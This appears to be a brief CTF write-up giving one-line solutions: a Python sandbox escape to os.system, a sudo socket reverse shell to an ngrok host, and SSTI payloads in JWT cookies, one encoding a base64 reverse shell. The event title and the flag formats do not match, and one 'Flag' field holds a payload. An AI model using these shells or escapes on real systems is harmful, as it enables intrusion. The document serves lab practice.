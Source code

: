 # CryptoverseCTF 2023

Team: ACTFA

## Overview

```
Title                      Category             Points  Flag
-------------------------- -------------------  ------- -----------------------------
Warmup 1                   Crypto               173     cvctf{base58_with_rot}
```

## Misc : PyJail

**Challenge**  

**Solution**  
https://ctftime.org/writeup/23298

print([''.__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("cat pyjail.py")])

**Flag**  
```
Hero{nooooo_y0u_3sc4p3d!!}
```

## System : chm0d

**Challenge**

**Solution**
perl -e 'chmod 0755, "flag.txt"'

**Flag**
```
Hero{chmod_1337_would_have_been_easier}
```

## System : SUDOkLu

**Challenge**

**Solution**
sudo -u privilegeduser /usr/bin/socket -p "/bin/bash" 0.tcp.ap.ngrok.io 13256

**Flag**
```
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

## Web : Drink From my Flask

**Challenges**

**Solution**
SSTI di cookies
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3tsaXBzdW0uX19nbG9iYWxzX19bJ29zJ10ucG9wZW4oJ2NhdCBmbGFnLnR4dCcpLnJlYWQoKX19In0.cMJOq4-LlT2sMEvPgoNENZX_L0pu6c4ECnOvgoomO0g

**Flag**

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3snJy5fX2NsYXNzX18ubXJvKClbMV0uX19zdWJjbGFzc2VzX18oKVs0MDRdKCdlY2hvIGMyZ2dMV2tnUGlZZ0wyUmxkaTkwWTNBdk1DNTBZM0F1WVhBdWJtZHliMnN1YVc4dk1UazBOalVnTUQ0bU1Rbz0gfCBiYXNlNjQgLWQgfCBiYXNoJyxzaGVsbD1UcnVlLHN0ZG91dD0tMSkuY29tbXVuaWNhdGUoKX19In0.B9pKN_5Esx-GskkSI8_f4WBFXojK4mXHORezj6kDe3Q